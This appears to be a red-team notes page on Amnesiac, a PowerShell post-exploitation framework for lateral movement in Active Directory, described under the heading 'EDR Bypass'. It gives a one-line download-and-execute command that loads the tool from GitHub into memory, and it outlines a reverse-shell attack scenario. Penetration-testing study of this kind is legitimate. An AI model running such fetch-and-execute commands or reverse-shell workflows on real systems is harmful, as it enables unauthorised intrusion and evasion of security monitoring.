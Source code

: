 ```yaml
---
icon: flask-round-potion
---
```


# Amnesiac - EDR Bypass

## Introduction

`Amnesiac` is a post-exploitation framework designed to assist with lateral movement within active directory environments.

Amnesiac is being developed to bridge a gap on Windows OS, where post-exploitation frameworks are not readily available unless explicitly installed. In fact, it is entirely written in PowerShell, and can be loaded and executed in memory, just like any other PowerShell script.

## Load and Run

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Amnesiac/main/Amnesiac.ps1');Amnesiac
```

## Attack Map

```
Windows Victim Machine --> Kali Linux (Attacker's Machine)
    [Reverse Shell Connection]

Kali Linux (Attacker's Machine) --> Windows Attack Machine (Amnesiac Server)
    [Generate Listener Payload]

Windows Victim Machine --> Windows Attack Machine (Amnesiac Server)
    [New Reverse Shell Connection]
```

## Attack Scenario

The attack scenario involves a post-exploitation phase:

1. The attacker already has access to the victim machine, which is a Windows system.
2. The attacker is using a Kali Linux machine as the primary attack machine.
3. Another Windows machine is utilized by the attacker to generate a payload listener using the tool [Amnesiac](https://github.com/Leo4j/Amnesiac).
4. The Amnesiac server runs on this Windows attack machine and generates a listener payload for the already compromised victim machine.
5. The attacker pastes the generated payload into the reverse shell session on the Kali Linux machine.
6. As a result, the attacker establishes a new session on the Windows attack machine through the reverse shell connection from the victim machine.



***

## REFERENCES

* [https://leo4j.gitbook.io/amnesiac](https://leo4j.gitbook.io/amnesiac)
* [https://www.youtube.com/watch?v=btAUBgeUiAg\&ab\_channel=CyberAttack%26Defense](https://www.youtube.com/watch?v=btAUBgeUiAg\&ab_channel=CyberAttack%26Defense)





